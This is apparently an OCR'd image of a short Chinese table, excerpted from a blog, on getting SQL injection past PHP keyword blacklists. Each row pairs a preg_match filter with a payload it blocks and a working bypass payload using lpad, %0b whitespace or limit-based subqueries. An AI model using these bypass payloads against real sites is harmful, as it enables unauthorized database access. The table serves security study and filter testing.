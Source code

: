 ```
过滤关键字    and, or, union, where, limit, group by, select, ', hex, substr
php代码    preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = lower(conv(11,10,16))/td>
绕过方式    1 && lpad(user,7,1)

过滤关键字    and, or, union, where, limit, group by, select, ', hex, substr, 空格
php代码    preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
会过滤的攻击代码    1 && lpad(user,7,1)/td>
绕过方式    1%0b||%0blpad(user,7,1)

过滤关键字    and or union where
php代码    preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 || (select user from users where user_id = 1) = 'admin'
绕过方式    1 || (select user from users limit 1) = 'admin'
```

节选自：[http://byd.dropsec.xyz/2016/08/01/SQL-Injection%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/](http://byd.dropsec.xyz/2016/08/01/SQL-Injection绕过技巧/)
